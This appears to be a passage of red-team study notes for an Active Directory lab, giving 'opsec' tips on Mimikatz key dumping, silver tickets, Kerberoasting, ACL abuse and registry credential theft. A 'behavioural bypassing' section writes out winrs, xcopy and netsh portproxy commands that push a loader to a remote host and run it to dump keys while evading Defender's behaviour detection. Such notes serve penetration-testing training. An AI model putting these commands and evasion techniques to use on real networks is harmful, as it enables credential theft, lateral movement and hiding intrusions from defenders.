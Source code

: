 ### Thinks to remember 7: opsec
In cases you run sekurlsa::ekeys and if you find many aes keys for the same user check the SID always, and for example in case of a resource based constrained delegated scenario would pick S-1-5-18 which is the admin one !

### Thinks to remember 8: opsec
Use silver tickets for staying under the radar dont do stupidities like adding ur account to domain admin group with that, be smart.

### Thinks to remember 9: opsec
Kerboroasting on the best attacks for staying under the radar, if you manage to guess the pass(I mean its RC4 ... hope you do it !)

### Thinks to remember 10: opsec
ACL attacks are interesting and very profitable, i would also say that there are stealthier than others.

## Thinks to remember 11: opsec
Credential theft protections(Credential Guard,Protected users group) are not protecting against extracting credential from the registry, only from lsass. Credentials for local accounts in SAM and Service account
credentials from LSA Secrets are NOT protected.

### Behavioural bypassing
## Scenario 1: We have remote access to another machine and we want to use a binary to download something and execute it in the memory. An executable trying to download another executable or something from a remote server will trigger bevaviour base detection from defender. Instead portforward your own port and download it from 127.0.0.1 which will not be a remote server.
**Example:**
`winrs -r;dcorp-mgmt hostname:whoami` -> "From our machine exec on the other machine"
`iwr http://172.16.100.1/Loader.exe -OutFile C:\Users\Public\Loader.exe` "Download on our machine"
`echo F | xcopy C:\Users\Public\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe` "Copy on the rmt machine"
`winrs -r:dcorp-mgmt C:\Users\Public\Loader.exe -path http://172.16.100.1/Loader.exe sekurlsa::ekeys exit` "Wrong way as executable tries to download another executable and run it from 'remote server'"
`winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=127.16.100.1`"Correct way as we forward our port as the remote machine localhost port access, so it seems that the remote machine is downloading from itself and not from a remote server"
############################################################################
### Noisy commands that and should be avoided :
## Scenario 2: In general the idea is when you ask something from the DC and you spam all the machines in the network you will leave logs on all the machines and you will cause a network spike.
